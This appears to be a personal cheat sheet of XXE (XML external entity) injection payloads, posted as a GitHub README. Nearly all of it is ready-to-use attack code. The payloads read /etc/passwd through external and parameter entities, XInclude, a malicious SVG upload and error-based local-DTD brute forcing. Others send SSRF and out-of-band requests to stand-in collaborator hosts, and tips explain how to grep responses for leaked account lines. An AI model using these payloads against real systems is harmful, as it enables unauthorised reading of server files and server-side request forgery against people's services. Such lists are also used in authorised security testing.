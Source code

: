 # My xxe payload
writed by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Exploiting XXE using external entities to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### if 1st was fail
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]> //dont call xxe
```
### XXE to perform SSRF attacks
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://sarver-ip/"> ]>
```
### XXE TO SSRF
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### file upload
#### save this as  svg file and upload it. now check your uploaded picture with root:x content.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### brutforceing dtd
#### bruteforce "bruteforce-here" with your dtd list and grep  root:x | daemon:x
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://bruteforce-here">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
